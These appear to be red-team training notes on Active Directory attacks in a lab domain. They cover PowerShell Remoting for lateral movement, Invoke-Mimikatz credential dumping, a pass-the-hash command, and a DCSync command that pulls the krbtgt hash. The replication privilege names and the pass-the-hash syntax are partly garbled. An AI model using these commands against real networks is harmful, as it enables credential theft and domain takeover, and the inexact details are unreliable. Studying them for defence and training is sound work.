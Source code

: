- It is a recommended way to manage Windows core servers.

- This comes enabled by-default from Windows Server 2012.

- Adversary uses this utility to connect to remote computers/servers and execute commands upon achieving high privileges.

- Example : Invoke-Command, New-PSSession, Enter-PSSession

- Configuration is easy “Enable-PSRemoting -SkipNetworkProfileCheck -Verbose -Force” as administrator.

- It is used to run commands and scripts on : 
  - Windows Servers/workstations
  - Linux machines too (PowerShell is Open-Source project)

- Example commands : 

```powershell
$session = New-PSSession –Computername Windows-Server
Invoke-Command –Session $session –ScriptBlock {Whoami;hostname}
Enter-Pssession –Session $session -verbose
```

### Mimikatz PowerShell Script

- Used for dumping credentials, Kerberos tickets etc all in-memory.

- Run with Administrative privileges for performing credential dumping operations.

- Ex : (As Administrator)

```powershell
Invoke-Mimikatz -DumpCreds -Verbose
Invoke-Mimikatz –DumpCreds –ComputerName @(“comp1”,”comp2”)
```

- Most famous Pass-the-hash attack:

```powershell
Invoke-Mimikatz -Command "sekurlsa::pth /user:Administrator /domain:cyberwarfare.corp/hash: /run:powershell.exe"
```

### DCSYNC Attack

- In order to extract the domain user account/service account/machine account credentials without code execution on the Domain Controller the Adversary used DCSYNC Attack.

- Specific set of privileges are required to perform remote hash retrievable without code execution.
  - Get-ReplicationChanges
  - Get-ReplicationChangesAll
  - Get-ReplicationChnages-in-a-filtered-set

- Command : 

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\krbtgt"
```
